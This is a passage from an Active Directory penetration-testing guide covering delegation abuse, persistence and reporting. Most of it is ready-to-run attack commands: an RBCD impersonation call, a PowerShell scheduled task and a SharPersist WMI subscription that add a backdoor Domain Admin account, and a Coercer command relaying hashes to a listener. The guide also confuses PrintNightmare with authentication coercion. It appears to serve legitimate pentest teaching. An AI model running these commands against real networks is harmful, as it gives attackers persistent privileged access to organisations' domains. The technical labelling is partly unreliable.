     ```bash
    python3 rbcd.py -dc-ip 192.168.1.10 -from 'comp1$' -to 'dc01$' target.com/jdoe:Password123!
    ```
    - **Explanation**: Exploits resource-based constrained delegation to impersonate users on dc01.[](https://github.com/theyoge/AD-Pentesting-Tools)

### 5.2 Persistence via Scheduled Tasks and Backdoors
- **Description**: Create scheduled tasks, backdoor accounts, or malicious services to maintain access.
- **Techniques**:
  - Use compromised credentials to create tasks or services executing malicious scripts.
  - Add backdoor accounts to privileged groups.
  - Deploy persistence via registry, WMI subscriptions, or ADCS backdoors.
  - Exploit PrintNightmare to deploy persistent malicious drivers.
- **Tools**:
  - **PowerShell**: Creates scheduled tasks and backdoors.
  - **Schtasks**: Native Windows tool for task scheduling.
  - **Empire**: Deploys post-exploitation agents.
  - **Covenant**: Command and control framework for persistence.
  - **SharPersist**: Implements various persistence techniques.
  - **Coercer**: Exploits PrintNightmare and other vulnerabilities.
- **Examples**:
  - Create a scheduled task with PowerShell:
    ```powershell
    $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -Command 'net user hacker Password123! /add /domain; net group \"Domain Admins\" hacker /add /domain'"
    $trigger = New-ScheduledTaskTrigger -Daily -At "12:00"
    Register-ScheduledTask -TaskName "Backdoor" -Action $action -Trigger $trigger -User "SYSTEM"
    ```
    - **Explanation**: Creates a daily task to add a backdoor user to Domain Admins.
  - Use Coercer for PrintNightmare exploitation:
    ```bash
    coercer coerce -t 192.168.1.10 -u jdoe -p Password123! --listener 192.168.1.100
    ```
    - **Explanation**: Exploits PrintNightmare to trigger NTLM authentication, capturing hashes for persistence.[](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
  - Use SharPersist for WMI persistence:
    ```powershell
    SharPersist.exe -t wmi -c "C:\Windows\System32\cmd.exe" -a "/c net user hacker Password123! /add /domain" -n "Backdoor"
    ```
    - **Explanation**: Creates a WMI subscription to execute a backdoor command, ensuring persistence.

## 6. Reporting and Recommendations
Objective: Document findings and provide mitigation strategies.

- **Description**: Compile a detailed report of vulnerabilities, exploitation steps, and remediation advice.
- **Techniques**:
  - Document findings with evidence (e.g., screenshots, logs, BloodHound graphs).
  - Map attacks to MITRE ATT&CK framework (e.g., T1558 for Kerberoasting, T1649 for ADCS).
  - Suggest mitigations like enabling Kerberos pre-authentication, restricting GPO permissions, implementing LAPS, monitoring with Lepide, deploying Azure AD security features, and auditing ADCS templates.
- **Tools**:
  - **Markdown/Pandoc**: Generates professional reports.
  - **CherryTree**: Organizes pentest notes.
  - **Dradis**: Collaborative reporting for teams.
  - **ReportGen**: Automates report generation for pentests.
  - **PingCastle**: Audits AD security and generates reports.
- **Example**:
  - Sample report structure:
    ```markdown